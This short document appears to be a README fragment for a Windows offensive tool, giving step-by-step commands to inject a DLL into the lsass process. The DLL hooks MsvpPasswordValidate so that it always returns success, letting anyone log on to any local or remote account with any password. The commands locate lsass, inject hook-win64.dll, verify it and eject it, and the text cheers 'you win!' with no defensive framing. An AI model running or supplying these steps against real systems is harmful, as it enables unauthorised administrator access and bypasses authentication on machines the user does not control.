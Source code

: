 Hook MsvpPasswordValidate, always return 1 and log on with any account (local or remote) and any password.

How to proceed:</br></br>
Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass</br>
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!</br>
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
